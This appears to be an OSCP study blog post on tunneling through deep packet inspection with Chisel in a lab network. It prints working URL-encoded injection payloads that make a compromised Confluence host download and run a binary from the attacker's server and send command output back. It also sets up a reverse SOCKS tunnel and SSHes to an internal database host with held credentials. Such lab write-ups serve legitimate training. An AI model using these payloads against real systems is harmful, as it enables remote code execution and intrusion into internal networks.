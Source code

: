 ```yaml
---
title: Tunneling Through Deep Packet Inspection
date: 2024-03-31 09:42:00 -0600
categories: [OSCP]
tags: [oscp, pen200, offsec, certs]     # TAG names should always be lowercase
---
```

*The Tunneling Through Deep Packet Inspection tools and tactics reviewed here are presented specifically in preparation for the OSCP exam per course suggestions and are by no means replacements for the OSCP training course, nor comprehensive guides for this step in the Kill Chain.*

# Tunneling Through Deep Packet Inspection

Deep Packet Inspection monitors traffic based on a set of rules, most often on a network perimeter where it can identify indicators of compromise. Devices with DPI may be configured to only allow specific transport protocols. 

## HTTP Tunneling Theory and Practice

Imagine this scenario: we have compromised CONFLUENCE01 and can execute commands via HTTP requests. But, when we try to pivot, we're blocked by a restrictive network config. A Deep Packet Inspection (DPI) solution is terminating all outbound traffic aside from HTTP. Also, all inbound ports are blocked aside from TCP 8090. A normal reverse shell will not work here because it would not conform to the HTTP format and would be terminated at the network perimeter by this DPI. SSH remote port forward also would not work because of this. We can only have HTTP traffic reach Kali. We could make requests with Wget and cURL. 

We have creds for PGDATABASE01 but need to SSH directly there thru CONFLUENCE01, which we will do through tunnelling into the internal network resembling an outgoing HTTP connection from CONFLUENCE01.

### HTTP Tunneling with Chisel

```
10.4.212.215 PGDATABASE01
192.168.212.63 CONFLUENCE01
```

Chisel is an HTTP tunneling tool that encapsulates our data stream within HTTP, while laos using SSH in the tunnel so our data is encrypted.

A Chisel server nees to be set up that can accept a connection from a Chisel client. There are many port forwarding options base on our configs. One great option is reverse port forwarding, which is similar to SSH remote port forwarding.

NOTE: There are older tools like HTTPTunnel that have similar functionality but lack the flexibility and cross-platform abilities.

We'll run a Chisel server on Kali that accepts a connection from a Chisel client on CONFLUENCE01. Chisel will bind a SOCKS proxy port on Kali, and the Chisel server will encapsulate what we send thru the SOCKS port and push it thru the HTTP tunnel as SSH-encrypted data. The Chisel client then decapsulates it and pushes it where addressed.

The client to server traffic is HTTP formatted, meaning we can traverse a deep packet solution regardless of the contents of each HTTP packet. The Kali Chisel server will listen on TCP 1080, a SOCKS proxy port. We'll pass all traffic sent to 1080 back up the HTTP tunnel to the Chisel client who will forward it on to its destination.

If our target is running a different operating system, you must download and use the compiled binary for that specific OS and architecture from [here](https://github.com/jpillora/chisel/releases). For ease, this example has both amd64 Linux machines.

```console
// get chisel in Kali's web server
$ sudo cp $(which chisel) /var/www/html/

// start web server
$ sudo systemctl start apache2
```

We'll run this wget command, but encoded, through the injection on CONFLUENCE01.

```
wget 192.168.45.245/chisel -O /tmp/chisel && chmod +x /tmp/chisel
```

```console
kali$ curl http://192.168.212.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27wget%20192.168.45.245/chisel%20-O%20/tmp/chisel%20%26%26%20chmod%20%2Bx%20/tmp/chisel%27%29.start%28%29%22%29%7D/

// check the apache2 log file to confirm it worked
kali$ tail -f /var/log/apache2/access.log
192.168.212.63 - - [01/Apr/2024:15:58:47 -0400] "GET /chisel HTTP/1.1" 200 8655115 "-" "Wget/1.20.3 (linux-gnu)"

// start chisel server on kali
kali$ chisel server --port 8080 --reverse
2024/04/01 16:04:26 server: Reverse tunnelling enabled
2024/04/01 16:04:26 server: Fingerprint cBhNABBlLr/wyZs9K2YIAxX3/wl1btZUL71SUlM1owU=
2024/04/01 16:04:26 server: Listening on http://0.0.0.0:8080

// log incoming traffic
kali$ sudo tcpdump -nvvvXi tun0 tcp port 8080
tcpdump: listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
```

Now we'll need to start the Chisel client with the CONFLUENCE01 injection using the below command, but encoded.

```
/tmp/chisel client 192.168.45.245:8080 R:socks > /dev/null 2>&1 &
```

```console
kali$ curl http://192.168.212.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27/tmp/chisel%20client%20192.168.45.245:8080%20R:socks%27%29.start%28%29%22%29%7D/
```

Nothing happens? There may be something wrong with chisel, but we don't have access to the error. Let's try to see the command output.

```console
kali$ curl http://192.168.212.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27/tmp/chisel%20client%20192.168.45.245:8080%20R:socks%20%26%3E%20/tmp/output%20%3B%20curl%20--data%20@/tmp/output%20http://192.168.45.245:8080/%27%29.start%28%29%22%29%7D/

/tmp/chisel: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.32' not found (required by /tmp/chisel)/tmp/chisel: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.34' not found (required by /tmp/chisel) [|http]
```

The error shows that Chisel is trying to use versions 2.32 and 2.34 of glibc,5 which CONFLUENCE01 does not have. (this could be any error that we have to work around). Let's look for a solution.

```kali
kali$ chisel -h
Version: 1.9.1-0kali1 (go1.21.3)

// kali is shipped with 1.8.1 Chisel
// BUT it was also compiled with Go v1.20.7
// this error is common with binaries compiles with Go v > 1.20 that run on OSs without a compatible version of glibc
// we'll just grab Chisel v1.1.8 that is compiled with Go v 1.19 from GitHub

kali$ wget https://github.com/jpillora/chisel/releases/download/v1.8.1/chisel_1.8.1_linux_amd64.gz

kali$ gunzip chisel_1.8.1_linux_amd64.gz

kali$ sudo cp ./chisel /var/www/html

kali$ curl http://192.168.212.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27wget%20192.168.45.245/chisel%20-O%20/tmp/chisel%20%26%26%20chmod%20%2Bx%20/tmp/chisel%27%29.start%28%29%22%29%7D/

kali$ curl http://192.168.212.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27/tmp/chisel%20client%20192.168.45.245:8080%20R:socks%27%29.start%28%29%22%29%7D/

// check Chisel server for connection

kali$ chisel server --port 8080 --reverse
2024/04/01 16:43:40 server: Reverse tunnelling enabled
2024/04/01 16:43:40 server: Fingerprint xCrEQ26tJWg1sKpii175cQfcZG+NcsmYbEGQY2NbXwc=
2024/04/01 16:43:40 server: Listening on http://0.0.0.0:8080
2024/04/01 16:58:29 server: session#1: Client version (1.9.1) differs from server version (1.9.1-0kali1)
2024/04/01 16:58:29 server: session#1: tun: proxy#R:127.0.0.1:1080=>socks: Listening

// check SOCKS proxy status

kali$ ss -ntplu
tcp   LISTEN 0      4096         127.0.0.1:1080        0.0.0.0:*     users:(("chisel",pid=3125914,fd=8)) 
```

So, our SOCKS proxy port 1080 is listening on the loopback iface of Kali. We'll use the SSH ProxyCommand config option, which accepts a shell command that is used to open a proxy-enabled channel. The documentation suggests using the OpenBSD version of Netcat, which exposes the -X flag9:1 and can connect to a SOCKS or HTTP proxy. However, the version of Netcat that ships with Kali doesn't support proxying, so we'll use Ncat.

```console
kali$ sudo apt install ncat

kali$ ssh -o ProxyCommand='ncat --proxy-type socks5 --proxy 127.0.0.1:1080 %h %p' database_admin@10.4.212.215 
```

Success!
